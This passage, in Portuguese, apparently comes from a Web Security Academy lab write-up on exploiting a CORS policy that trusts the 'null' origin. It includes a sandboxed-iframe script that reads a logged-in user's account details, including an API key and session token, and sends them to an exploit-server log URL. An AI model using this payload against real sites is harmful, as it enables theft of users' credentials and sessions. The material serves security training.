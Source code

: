 
Porém se adicionarmos o `Origin: null` no cabeçalho da requisição, o servidor reflete o valor do `Origin` no cabeçalho `Access-Control-Allow-Origin` da resposta.

``` http

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "2CQarMFEnpoTmzpQVzKmdB0BMlUL0oFG",
  "sessions": [
    "6Z9t0bvfCjQcBrFo0QC063fJ9pBaSJUN"
  ]
}

``` 

Sabendo disso iremos criar um faz uma requisição para o endereço `/accountDetails`:

``` html

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ace00ff0403efc3c385a19300ec00da.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a32009204bcef26c39fa06e010a00f4.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>


```

No script acima, iremos fazer uma requisição para o endereço `/accountDetails` e enviar o resultado para o endereço `/log?key=`, que é um servidor que temos acesso. O uso do `iframe` gera uma requisição com o `Origin: null` no cabeçalho da requisição.

Note que também estamos usando o `location='https://exploit-0a32009204bcef26c39fa06e010a00f4.exploit-server.net/log?key='+encodeURIComponent(this.responseText);` para enviar o resultado da requisição para o servidor que temos acesso.

Agora basta colocar o script no campo **body** do **exploit server** e clicar em **Deliver exploit to victim**.
